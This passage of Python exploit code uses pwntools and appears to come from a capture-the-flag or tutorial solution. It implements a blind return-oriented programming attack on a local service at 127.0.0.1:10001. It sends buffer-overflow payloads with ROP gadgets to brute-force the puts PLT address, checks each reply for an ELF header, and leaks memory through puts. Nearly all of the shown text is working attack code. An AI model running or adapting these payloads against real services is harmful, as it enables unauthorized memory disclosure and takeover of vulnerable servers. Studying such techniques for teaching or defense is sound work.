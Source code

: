                 pass
            finally:
                sh.close()
                addr += 1

    def get_puts_start_addr(length, pop_rdi_ret, stop_gadget, addr):
        info('we has find put_plt, now try to find the start:')
        while True:
            info(hex(addr))
            flag1 = False
            flag2 = False
            sh = remote('127.0.0.1', 10001)
            sh.recvuntil(b'password?\n')
            payload = length*b'a' + p64(pop_rdi_ret) + \
                p64(0x400000) + p64(addr) + p64(stop_gadget)
            sh.sendline(payload)
            try:
                content1 = sh.recv(timeout=2)
                if content1.startswith(b'\x7fELF'):
                    flag1 = True
            except EOFError:
                flag1 = False
            sh.close()
            sh = remote('127.0.0.1', 10001)
            sh.recvuntil(b'password?\n')
            payload = length*b'a' + p64(pop_rdi_ret) + \
                p64(0x400000) + p64(addr+6) + p64(stop_gadget)
            sh.sendline(payload)
            try:
                content2 = sh.recv(timeout=2)
                info(b'content2:' + content2)
                if content2.startswith(b'\x7fELF'):
                    flag2 = True
            except EOFError:
                flag2 = False
            info('flag1:{}, flag2:{}'.format(flag1, flag2))
            if (flag1 & flag2):
                success('get the start of puts_plt addr:' + hex(addr))
                return addr
            else:
                addr += 1

    def leak(length, pop_rdi_ret, puts_plt, leak_addr, stop_gadget):
        sh = remote('127.0.0.1', 10001)
        payload = length*b'a' + p64(pop_rdi_ret) + \
            p64(leak_addr) + p64(puts_plt) + p64(stop_gadget)
        sh.recvuntil('password?\n')
        sh.sendline(payload)
        try:
            data = sh.recv()
            sh.close()
            if b'WelCome' in data:
                data = data[:data.index(b"\nWelCome")]
            else:
                data = data
            if data == b"":
                data = b'\x00'
            return data
        except Exception:
            sh.close()
            info('failure in {}'.format(leak_addr))
            return None
